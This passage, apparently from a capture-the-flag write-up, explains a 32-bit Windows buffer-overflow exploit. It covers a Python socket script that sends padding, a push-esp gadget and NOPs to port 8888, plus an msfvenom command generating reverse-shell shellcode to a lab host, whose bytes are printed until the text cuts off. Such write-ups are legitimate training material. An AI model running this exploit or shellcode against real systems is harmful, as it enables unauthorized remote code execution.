     overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))       
    
    buf = padding1 + EIP + NOPS + payload + overrun 
    
    try:
            s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target,8888))
            s.send(buf)
    except Exception as e:
            print(sys.exc_value)
    

Very simply, it opens a connect to the target on port 8888, it sends a buffer,
and it’s done.

The buffer is made up of 1052 bytes of no-op (nop, padding), then the address
of a `push esp, ret` gadget, some nops, the payload, and then some more
filler.

Without looking at the binary, this suggests that the stack before and after
user input is read looks like this:

![image-20200719164839522](https://0xdfimages.gitlab.io/img/image-20200719164839522.png)

Now when the function returns, it will go to to the gadget, which will push
`$esp` to the stack (which will now be at the top of the nops before the
payload), and then return, moving the instruction pointer, `$eip`, to the nops
followed by the payload.

#### Modify Payload

The payload in the script by default looks to be the output of `msfvenom -a
x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python`. Given the four-
byte addresses and references to ESP and EIP (as opposed to RSP and RIP), this
is a 32-bit program.

I’ll use `msfvenom` to generate my own payload that will return a stageless
(can catch with `nc`) reverse tcp shell:

    
    
    root@kali# msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 351 (iteration=0)
    x86/shikata_ga_nai chosen with final size 351
    Payload size: 351 bytes
    Final size of python file: 1869 bytes
    payload =  b""
    payload += b"\xb8\x93\xe7\xa2\x0c\xd9\xe9\xd9\x74\x24\xf4\x5a"
    payload += b"\x31\xc9\xb1\x52\x31\x42\x12\x03\x42\x12\x83\x51"
    payload += b"\xe3\x40\xf9\xa9\x04\x06\x02\x51\xd5\x67\x8a\xb4"
    payload += b"\xe4\xa7\xe8\xbd\x57\x18\x7a\x93\x5b\xd3\x2e\x07"
    payload += b"\xef\x91\xe6\x28\x58\x1f\xd1\x07\x59\x0c\x21\x06"
    payload += b"\xd9\x4f\x76\xe8\xe0\x9f\x8b\xe9\x25\xfd\x66\xbb"
    payload += b"\xfe\x89\xd5\x2b\x8a\xc4\xe5\xc0\xc0\xc9\x6d\x35"
    payload += b"\x90\xe8\x5c\xe8\xaa\xb2\x7e\x0b\x7e\xcf\x36\x13"
    payload += b"\x63\xea\x81\xa8\x57\x80\x13\x78\xa6\x69\xbf\x45"
    payload += b"\x06\x98\xc1\x82\xa1\x43\xb4\xfa\xd1\xfe\xcf\x39"
    payload += b"\xab\x24\x45\xd9\x0b\xae\xfd\x05\xad\x63\x9b\xce"
    payload += b"\xa1\xc8\xef\x88\xa5\xcf\x3c\xa3\xd2\x44\xc3\x63"
    payload += b"\x53\x1e\xe0\xa7\x3f\xc4\x89\xfe\xe5\xab\xb6\xe0"
    payload += b"\x45\x13\x13\x6b\x6b\x40\x2e\x36\xe4\xa5\x03\xc8"
    payload += b"\xf4\xa1\x14\xbb\xc6\x6e\x8f\x53\x6b\xe6\x09\xa4"
    payload += b"\x8c\xdd\xee\x3a\x73\xde\x0e\x13\xb0\x8a\x5e\x0b"
    payload += b"\x11\xb3\x34\xcb\x9e\x66\x9a\x9b\x30\xd9\x5b\x4b"
    payload += b"\xf1\x89\x33\x81\xfe\xf6\x24\xaa\xd4\x9e\xcf\x51"
